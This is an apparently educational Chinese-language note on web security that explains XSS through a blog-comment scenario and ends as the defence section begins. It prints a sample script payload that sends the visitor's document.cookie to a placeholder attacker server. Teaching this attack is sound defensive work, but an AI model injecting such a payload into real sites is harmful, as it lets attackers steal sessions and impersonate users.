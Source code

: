 ```yaml
---
title: Web 安全
date: 2025-08-05
tags:
  - JavaScript
---
```

# Web安全

> Web攻击（WebAttack）是针对用户上网行为或网站服务器等设备进行攻击的行为，比如获取用户隐私，植入恶意代码等。
> 常见的 Web 攻击方式包括 XSS/ CSRF / DDos / SQL 注入...

## XSS

全程 `Cross Site Scripting` 跨站脚本攻击。

攻击者将恶意脚本注入到网页中，当用户访问这个网页时，恶意脚本就会在用户的浏览器上执行。攻击者可以利用这个脚本窃取用户的`Cookie`、**会话令牌**，甚至**修改网页内容**，进行钓鱼攻击。

`XSS`涉及到三方，即攻击者、客户端与`Web`应用

### 攻击场景和攻击过程

你的博客有一个评论系统，访客可以留言评论。一个恶意用户小张，想在你的博客上搞点破坏，于是他发表了一条评论，但评论内容不是普通文字，而是一段恶意脚本：

```html
<script>
  alert('你被XSS攻击了！');
  // 这里可以写更恶意的代码，比如窃取用户的Cookie
  // document.cookie 可以获取当前页面的所有cookie
  // 然后通过网络请求将cookie发送到攻击者的服务器
  new Image().src = 'http://小张的Server.top/steal?cookie=' + document.cookie;
</script>
```

**攻击过程：**

1. 用户B访问博客页面：
     
	当其他普通用户B访问这篇博客文章，加载到评论区时，浏览器会解析页面上的所有HTML内容。
    
2. 浏览器解析执行恶意脚本：
    
    由于小张的恶意代码被当作普通评论内容直接插入到了HTML中，浏览器会把它当作一个 `<script>` 标签来处理。
    
3. 触发攻击：
    
    浏览器会立即执行这个 `<script>` 标签里的JavaScript代码。此时，用户B的浏览器会弹出一个警告框，显示“你被XSS攻击了！”。
    
    与此同时，用户B的登录信息（存储在Cookie中）就被发送到攻击者的服务器，攻击者就可以利用这些信息假冒用户B的身份进行操作。

### 如何防御

#### 转义处理
